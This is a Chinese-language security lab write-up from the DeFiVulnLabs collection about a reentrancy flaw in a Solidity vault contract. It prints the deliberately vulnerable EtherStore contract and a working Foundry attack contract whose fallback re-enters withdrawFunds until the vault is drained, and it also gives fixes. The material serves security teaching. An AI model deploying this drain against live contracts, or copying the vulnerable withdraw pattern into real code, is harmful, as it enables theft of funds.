 # 可重入性
[Reentrancy.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Reentrancy.sol)  
**名称：** 可重入性漏洞  
**描述：**  
在EtherStore智能合约设计中有一个可重入性漏洞的缺陷，这会允许攻击者利用重入性从EtherStore合约中提取超过其应提取的资金。  
该漏洞的出现是由于EtherStore合约中的withdrawFunds函数，在更新攻击者余额之前，以太币就被转移到攻击者地址了。  
这允许攻击者的合约在更新余额之前，对withdrawFunds函数进行可重入性回调，从而进行多次提款并且有可能取走EtherStore合约中的所有以太币。  
**场景：**  
EtherStore 合约是一个简单的金库，它管理每个人的以太币。  
但是它有漏洞，你能偷走所有的以太币吗？  


**修复建议：**  
遵守“检查-效果-交互”的编程范式和使用OpenZepplin的重入保护。  



**参考：**  
https://slowmist.medium.com/introduction-to-smart-contract-vulnerabilities-reentrancy-attack-2893ec8390a  

https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/  


**EtherStore合约：**  
```
contract EtherStore {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawFunds(uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        (bool send, ) = msg.sender.call{value: _weiToWithdraw}("");
        require(send, "send failed");

        // 取款后，检查是否有足够的余额以防止下溢
        //check if after send still enough to avoid underflow
        if (balances[msg.sender] >= _weiToWithdraw) {
            balances[msg.sender] -= _weiToWithdraw;
        }
    }
}
```

**如何测试：**  

forge test --contracts src/test/Reentrancy.sol-vvvv  
```
// 测试 EtherStore合约可重入攻击漏洞的函数 
function testReentrancy() public {
    // 执行攻击合约的Attack函数
    attack.Attack();
}

// 攻击EtherStore合约的合约
contract EtherStoreAttack is Test {
    // 待攻击的EtherStore合约实例
    EtherStore store;

    // 初始化EtherStore合约
    constructor(address _store) {
        store = EtherStore(_store);
    }

    // 执行攻击的函数
    function Attack() public {
        // 记录EtherStore的余额
        console.log("EtherStore balance", address(store).balance);

        // 向EtherStore合约存入1个以太币
        store.deposit{value: 1 ether}();

        // 记录EtherStore合约新余额
        console.log(
            "Deposited 1 Ether, EtherStore balance",
            address(store).balance
        );
        //从EtherStore合约取走1个以太币, 这就是可以攻击的地方
        store.withdrawFunds(1 ether); 

        // 记录攻击合约的余额
        console.log("Attack contract balance", address(this).balance);
        //记录EtherStore合约取款后的余额
        console.log("EtherStore balance", address(store).balance);
    }

    // 利用可重入漏洞的回退函数
    receive() external payable {
        // 记录攻击合约的余额
        console.log("Attack contract balance", address(this).balance);
        // 记录EtherStore合约的余额
        console.log("EtherStore balance", address(store).balance);
        // 判断EtherStore合约余额是否至少有1个以太币
        if (address(store).balance >= 1 ether) {
            // 取走1个以太币，这就是在回退函数中利用到的
            store.withdrawFunds(1 ether); 
        }
    }
}
```
**红色框：**  攻击成功，取完了EtherStore合约中的以太币。
![Alt text](image-3.png)

